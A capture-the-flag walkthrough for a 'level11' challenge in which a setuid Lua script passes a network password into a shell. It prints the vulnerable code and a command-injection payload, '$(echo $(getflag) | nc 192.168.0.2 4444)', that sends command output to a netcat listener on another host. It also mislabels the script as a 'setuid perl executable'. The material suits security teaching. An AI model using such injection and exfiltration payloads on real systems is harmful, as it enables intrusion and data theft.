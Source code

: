 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2011(level11) gid=2011(level11) groups=2011(level11),100(users)
```

This shows that we are operating as the user `level11`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua


$ file level11.lua
level11.lua: setuid setgid a lua script, ASCII text executable
```
The level10 binary is a setuid perl executable, meaning it executes with flag11 user's privileges.


---
## Step 3: Analyze the Script

```bash
$ bat level11.lua

#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

### Explanation
The key vulnerability here is that the script does not sanitize user input when passing the password to the echo command in the hash function. This allows for command injection, where a malicious user can execute arbitrary commands on the server by crafting a special input string.

## Step 4: Exploiting the vulnerability
```bash
$ nc 127.0.0.1 5151
Password: $(echo $(getflag) | nc 192.168.0.2 4444)
```

### Listener Output
```bash
$ nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 192.168.0.25 46889
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
---

And there you have it, the token is `fa6v5ateaw21peobuub8ipe6s`.